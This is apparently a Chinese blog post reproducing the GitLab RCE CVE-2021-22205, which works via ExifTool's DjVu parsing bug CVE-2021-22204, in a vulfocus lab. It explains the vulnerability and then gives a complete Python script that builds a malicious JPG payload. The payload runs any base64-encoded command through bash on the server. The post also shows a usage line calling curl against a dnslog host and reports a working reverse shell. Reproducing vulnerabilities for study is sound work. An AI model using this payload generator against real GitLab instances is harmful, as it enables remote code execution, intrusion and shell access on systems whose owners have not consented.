





CVE-2021-22205 是GitLab在4月份爆出的RCE，实际上是依托于CVE-2021-22204，也就是ExifTool的命令执行。而GitLab刚好上次hw的时候碰到过，虽然当时的对方gitlab版本比较高没有利用成功，但当时看的时候比较有意思，这里重新复现一下。
一、漏洞原理
Gitlab 是使用Ruby与Go编写的git软件，而CVE-2021-22205的漏洞原理可以参见
https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html
https://hackerone.com/reports/1154542
简单说明：
- 当上传图片文件时，
Gitlab Workhorse将扩展名为jpg|jpeg|tiff的文件通过ExifTool删除任何非白名单标记。 - ExifTool，它是一个使用perl编写的用于解析、操作图片文件中Tags信息的工具。tags就是时间、日期、地理位置等存在于图片格式中的信息。https://segmentfault.com/a/1190000018032048
- 而Gitlab 利用ExifTool来删除图片的tags信息。
- 但是ExifTool在处理DjVu模块的时候，可以使用构造的数据绕过正则过滤，导致perl命令执行。
二、复现
这里使用vulfocus靶场，注意在启动靶场后由于比较慢，所以需要过几分钟才不会出现拒绝访问和502。
进去之后修改密码，使用root账户登录。找到上传点：

使用原作者的echo_vakzz.jpg完成漏洞验证：

修改执行的命令：


三、命令执行图片构造：
利用原JPG构造符合格式的命令执行的图片即可：

EXP和POC在github上有许多，这里就不重复造轮子了，简单写一个自己的用来生成执行命令的图片的python脚本：
import base64
import sys
def getPayload(command):
payload = b''
payload += b'\x41\x54\x26\x54\x46\x4F\x52\x4D\x00\x00\x03\xAF\x44\x4A'
payload += b'\x56\x4D\x44\x49\x52\x4D\x00\x00\x00\x2E\x81\x00\x02\x00'
payload += b'\x00\x00\x46\x00\x00\x00\xAC\xFF\xFF\xDE\xBF\x99\x20\x21'
payload += b'\xC8\x91\x4E\xEB\x0C\x07\x1F\xD2\xDA\x88\xE8\x6B\xE6\x44'
payload += b'\x0F\x2C\x71\x02\xEE\x49\xD3\x6E\x95\xBD\xA2\xC3\x22\x3F'
payload += b'\x46\x4F\x52\x4D\x00\x00\x00\x5E\x44\x4A\x56\x55\x49\x4E'
payload += b'\x46\x4F\x00\x00\x00\x0A\x00\x08\x00\x08\x18\x00\x64\x00'
payload += b'\x16\x00\x49\x4E\x43\x4C\x00\x00\x00\x0F\x73\x68\x61\x72'
payload += b'\x65\x64\x5F\x61\x6E\x6E\x6F\x2E\x69\x66\x66\x00\x42\x47'
payload += b'\x34\x34\x00\x00\x00\x11\x00\x4A\x01\x02\x00\x08\x00\x08'
payload += b'\x8A\xE6\xE1\xB1\x37\xD9\x7F\x2A\x89\x00\x42\x47\x34\x34'
payload += b'\x00\x00\x00\x04\x01\x0F\xF9\x9F\x42\x47\x34\x34\x00\x00'
payload += b'\x00\x02\x02\x0A\x46\x4F\x52\x4D\x00\x00\x03\x07\x44\x4A'
payload += b'\x56\x49\x41\x4E\x54\x61\x00\x00\x01\x50\x28\x6D\x65\x74'
payload += b'\x61\x64\x61\x74\x61\x0A\x09\x28\x43\x6F\x70\x79\x72\x69'
payload += b'\x67\x68\x74\x20\x22\x5C\x0A\x22\x20\x2E\x20\x71\x78\x7B'
payload += b'echo\x20'+base64.b64encode(command.encode())+b'|base64 -d|bash'
payload += b'\x7D\x20\x2E\x20\x5C\x0A\x22\x20\x62\x20\x22\x29\x20\x29\x20\x20\x20\x20\x20\x20\x20\x20\x20'
payload += b'\x20'*412
return payload
if __name__=='__main__':
if len(sys.argv) == 2:
with open(r'payload.jpg','wb') as f:
f.write(getPayload(sys.argv[1]))
print("[+]Success payload.jpg")
else:
exit('''
[+]Use:python3 CVE-2021-22205-getPayloadJpg.py "curl http://a.i3a01t.dnslog.cn"
''')
这里有两个点值得注意：一是b'\x20'*412，数量太少不能RCE，可能是破坏了应有的结构。二是反弹shell成功不了可能是因为特殊字符，所以这里换成了base64编码了一下，实验可以成功反弹。
四、思考总结
看了一下原作者挖掘该CVE-2021-22204 的RCE的过程，主要漏洞点还是产生在正则过滤上，不得不说大佬就是大佬，从零开始审计一个脚本语言编写的工具思路如此清晰。